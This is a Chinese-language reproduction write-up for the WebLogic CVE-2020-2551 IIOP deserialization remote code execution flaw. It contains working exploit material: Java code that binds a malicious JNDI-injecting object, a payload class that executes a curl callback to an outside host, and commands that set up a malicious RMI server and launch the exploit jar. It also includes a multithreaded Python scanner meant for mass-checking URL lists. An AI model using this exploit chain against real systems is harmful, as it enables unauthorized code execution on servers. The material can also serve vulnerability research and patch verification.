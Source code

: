 # CVE-2020-2551 Weblogic CVE-2020-2551 IIOP协议反序列化rce

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求


```bash
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
context.rebind("Y4er"+System.nanoTime(), remote);
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
context.rebind("Y4er"+System.nanoTime(), remote);
```

你肯定疑惑JtaTransactionManager和weblogic.jndi.WLInitialContextFactory是从哪来的？

1. JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2. weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725

![](images/15893795047892.png)


此时var2是序列化传入的com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager，跟进readValue()

![](images/15893795108861.png)


跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager的readObject

![](images/15893795187375.png)


然后通过反射调用JtaTransactionManager的readObject()，跟进

![](images/15893795284066.png)


到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进initUserTransactionAndTransactionManager()

![](images/15893795354345.png)


如果userTransaction等于空有userTransactionName属性则进入lookupUserTransaction()，跟进

![](images/15893795440097.png)


此时lookup()参数可控

![](images/15893795505300.png)


lookup加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

#### 漏洞复现

https://github.com/ianxtianxt/CVE-2020-2551

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java


```bash
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```

尽量使用和weblogic相同的版本编译 然后本地起一个web服务器


```bash
python -m http.server --bind 0.0.0.0 80
```

命令行运行jar包


```bash
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```

实际效果如图

![82a0abee2e1b4a19ae52db4ebd41c59e](images/82a0abee2e1b4a19ae52db4ebd41c59e.gif)


python脚本

How use


```python
python3 CVE-2020-2551.py -u http://192.168.26.79:7001
cat urls.txt|sort -u|xargs -I % python3 CVE-2020-2551.py -u %
cat xxx.html|grep -Eo 'http[s]?:\/\/[^ \/]+'|sort -u|xargs -I % python3 CVE-2020-2551.py -u %
# 32 Thread check
cat allXXurl.txt|grep -Eo 'http[s]?:\/\/[^ \/]+'|sort -u|python3 CVE-2020-2551.py -e
```

t3, t3s, http, https, iiop, iiops


```bash
service:jmx:rmi://url:port/jndi/iiop://ip:port/MBean-server-JNDI-name
service:jmx:iiop://url:port/jndi/weblogic.management.mbeanservers.domainruntime
service:jmx:t3://url:port/jndi/weblogic.management.mbeanservers.domainruntime
```


```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import socket,argparse,sys,requests
from urllib.parse import urlparse
from multiprocessing.dummy import  Pool as ThreadPool
"""
only check CVE-2020-2551 vuls
Twitter: @Hktalent3135773
Creator: 51pwn_com
Site: https://51pwn.com
How use:
python3 CVE-2020-2551.py -u http://192.168.26.79:7001
# 32 Thread check
cat allXXurl.txt|grep -Eo 'http[s]?:\/\/[^ \/]+'|sort -u|python3 CVE-2020-2551.py -e
"""

def doThreads(fnCbk,lists,nThreads=32):
    pool = ThreadPool(nThreads)
    pool.map(fnCbk,lists)
    pool.close()
    pool.join()

def checkOnline(url,cbkUrl):
    try:
        requests.post('http://51pwn.com/CVE-2020-2551/',data={'url':url,cbkUrl:cbkUrl},timeout=(5,9))
    except Exception as e:
        pass

def doSendOne(ip,port,data):
    sock=None
    res=None
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(7)
        server_addr = (ip, int(port))
        sock.connect(server_addr)
        sock.send(data)
        res = sock.recv(20)
        if b'GIOP' in res:
            #checkOnline(ip+':'+str(port),'http://yourSite/?target={}&rst={}')
            return True
    except Exception as e:
        pass
    finally:
        if sock!=None:
            sock.close()
    return False
g_bPipe=False
def doOne(url):
    global g_bPipe
    oH=urlparse(url)
    a=oH.netloc.split(':')
    port=80
    if 2 == len(a):
        port=a[1]
    elif 'https' in oH.scheme:
        port=443
    if doSendOne(a[0],port,bytes.fromhex('47494f50010200030000001700000002000000000000000b4e616d6553657276696365')):
        print('found CVE-2020-2551 ', oH.netloc)
    elif g_bPipe == False:
        print('not found CVE-2020-2551 ', oH.netloc)

def doPipe():
    global g_bPipe
    g_bPipe=True
    buff = ''
    a=[]
    while True:
        buff = sys.stdin.readline()
        if not buff:
            break 
        if buff.endswith('\n'):
            szTmpCmd = buff[:-1]
            szTmpCmd=szTmpCmd.rstrip()
        buff = ''
        if not szTmpCmd:
            break 
        a.append(szTmpCmd)
    doThreads(doOne,a)

if __name__=='__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("-u","--url",help="http://xxx.xxx.xxx:7001/")
    parser.add_argument("-e","--pipeCheck",help="pipe check is Ok,thread 32",action="store_true")
    args = parser.parse_args()
    if args.url:
        doOne(args.url)
    if args.pipeCheck:
        doPipe()
© 2020 GitHub, Inc.
```

参考链接

https://y4er.com/post/weblogic-cve-2020-2551/

https://github.com/hktalent/CVE-2020-2551